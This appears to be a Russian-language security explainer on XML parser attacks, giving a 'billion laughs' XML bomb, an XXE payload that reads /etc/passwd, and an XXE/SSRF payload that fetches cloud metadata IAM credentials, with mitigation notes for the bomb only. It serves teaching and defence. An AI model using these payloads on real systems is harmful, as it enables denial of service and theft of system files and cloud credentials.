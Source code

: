 [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)

Отказ в обслуживании может быть вызван путем загрузки документа с объектом, который будет расширяться экспоненциально (так называемая XML-бомба). 

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Средства защиты от такого рода атак включают ограничение памяти, выделенной анализатору, если допустима потеря документа, или символическую обработку объектов и их расширение только тогда, когда будет использоваться их содержимое, а не сразу всего документа.


**Доступ к файлам.**

Если анализатор XML настроен на обработку внешних объектов (по умолчанию многие популярные анализаторы XML настроены на это), веб-сервер вернет содержимое файла в системе, потенциально содержащего конфиденциальные данные:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

Конечно, ограничиваться системными файлами никто не будет. Могут быть легко украдены другие локальные файлы, включая исходный код (если известны расположение и структура веб-приложения). 

**Выполнение подделки запросов на стороне сервера (SSRF)**

С помощью некоторых анализаторов XML даже возможно получать списки каталогов в дополнение к содержимому других ресурсов. Атаки могут даже позволить злоумышленнику выполнять регулярные HTTP-запросы к внешним ресурсам:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<foo>
  &xxe;
</foo>
```
